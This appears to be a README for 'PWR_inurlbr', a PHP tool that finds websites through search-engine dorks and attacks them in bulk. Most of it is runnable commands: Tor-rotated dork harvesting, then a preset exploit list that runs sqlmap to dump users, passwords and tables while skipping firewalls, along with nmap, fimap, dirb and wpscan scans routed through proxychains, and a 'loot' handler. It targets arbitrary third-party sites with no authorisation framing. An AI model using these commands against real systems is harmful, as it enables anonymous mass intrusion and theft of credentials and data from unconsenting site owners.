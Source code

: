 # PWR_inurlbr

- added sqllite db logging
- --custom-blacklist
- --custom-config

needs : NMAP,SQLMAP,DIG,WPSCAN,FIMAP,DIRB,BLACKWIDOW

The rest of the exploit scripts are included

Example usage:

./inurlbr.php  --dork 'inurl:.php?id=' --custom-config K00B404.conf -s maart2018.lst --tor-random  --mp 1 -q 1,2,3,4,5,6,7 --exploit-vul-id 1,2,3,5,15,4 --exploit-get "'0x27%27"  --custom-blacklist '.fleurlis.,.katun.,.alphaone.,.katun.me,.bible-history.'

Using a dork list and 10 pages of every searchengine (23) do:

./inurlbr.php  --dork-file 'Dorks/dorks2017-prefixed.lst' --custom-config K00B404.conf -s maart2018.lst --tor-random  --mp 10 -q all --exploit-vul-id 1,2,3,5,15 --exploit-get "'0x27%27"  --custom-blacklist '.fleurlis.,.katun.,.alphaone.,.katun.me,.bible-history.'


for list of --exploit-vul-id options which you can add if you like

./inurlbr.php --custom-config K00B404.conf --exploit-list

    [0] => TYPE::COMMAND
    [1] => MKDIR::service tor restart && mkdir -p output/_TARGET_
    [2] => DIG::proxychains dig -4 _TARGET_ > "output/_TARGET_/dig_output.lst" | cat "output/_TARGET_/dig_output.lst"
    [3] => GEOLOCATE::echo _TARGET_ >  "output/_TARGET_/ip_geo.txt" && geoiplookup _TARGETIP_ >> "output/_TARGET_/ip_geo.txt" |cat "output/_TARGET_/ip_geo.txt"
    [4] => SQLMAP::proxychains sqlmap -u "_TARGETFULL_" --dbms mysql --hex --output-dir "output/" --passwords --users --threads 10 --tables --dbs --skip-waf --random-agent --level 2 --risk 3 --batch --retries=1 --timeout 10 --smart --is-dba --dump
    [5] => NMAP::proxychains nmap -F -n -Pn -vvv --open _TARGETIP_ > "output/_TARGET_/nmap_output.lst" |cat  "output/_TARGET_/nmap_output.lst"
    [6] => WPSCAN::wpscan --url "http://"_TARGET_  --batch
    [7] => NMAP::proxychains nmap -n -Pn -vvv --open -p 81,8001,8081 _TARGETIP_ -sV > "output/_TARGET_/nmap_output.lst" |cat "output/_TARGET_/nmap_output.lst"
    [8] => NMAP::proxychains nnmap -vv _TARGETIP_ | grep "Discovered open port" | awk {'print $6":"$4'} | awk -F/ {'print $1'} > "output/_TARGET_/nmap_ip_port_output.lst" |cat "output/_TARGET_/nmap_ip_port_output.lst"
    [9] => SQLMAP::proxychains sqlmap -u "_TARGETFULL_" --dbms mysql --is-dba --users --passwords --skip-waf --random-agent --level 1 --risk 1 --batch --retries=1 --smart --output-dir="output/"
    [10] => NMAP::proxychains nmap -n -Pn -vvv --open --top-ports 10 _TARGETIP_ -sV
    [11] => FIMAP::proxychains fimap -u "http://_TARGET_" -4 -w "output/fimap__TARGET__found_urls.lst" -d 3 >> "output/_TARGET_/fimap_output.lst" |cat "output/_TARGET_/fimap_output.lst"
    [12] => DIRB::proxychains dirb "http://"_TARGET_ |grep "200" > "output/_TARGET__dirb_output.lst" |cat "output/_TARGET__dirb_output.lst"
    [13] => BLACKWIDOW::echo "BLACKWIDOW RUNNING" && proxychains blackwidow -l 1  -u "_TARGETFULL_" -d "_TARGET_" -s "output/_TARGET_/blackwidow_output.lst"
    [14] => SPIDER::echo "SPIDER SCRIPT" && python "modules/crawl.py" --verbose --max-urls=10 --max-time 3 -d 4 "http://"_TARGET_
    [15] => PORTTODB::bash Commands.sh _TARGET_
    [16] => LOOTHANDLER::bash LootHandler.sh
